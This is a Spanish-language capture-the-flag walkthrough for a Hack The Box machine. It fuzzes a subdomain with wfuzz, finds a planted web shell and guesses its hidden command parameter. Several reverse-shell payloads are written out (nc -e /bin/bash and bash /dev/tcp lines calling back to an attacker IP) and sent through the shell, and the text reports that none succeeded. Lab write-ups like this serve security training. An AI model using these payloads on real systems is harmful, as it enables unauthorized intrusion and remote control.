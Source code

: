 El ultimo dominio nos muestra un dominio turbio `sec03.rentahacker.htb`. Lo añadimos nuevamente en el `/etc/hosts` y por firefox
nos conectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros *Haxxors*. Si es el caso, fuzzeamos la pagina.

### Web Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ
```

Aqui hay un poco de todo. Intentamos fuzzear por archivos **PHP**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php
```

Ya encontramos un fichero **shell.php**. Visitamos la pagina por firefox y efectivamente parece una shell pero no tenemos el nombre
del comando usado para ejecutar los comandos. Lo buscamos con **WFUZZ** diciendole de ocultar las respuestas que retornan 0 palabras.

```bash
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
```

encontramos el comando `hidden`






## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell desde la webshell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En la web

    ```bash
    http://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443
    http://sec03.rentahacker.htb/shell.php?hidden=bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    http://sec03.rentahacker.htb/shell.php?hidden=whoami | nc 10.10.14.20 443
    ```

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el *iptables*
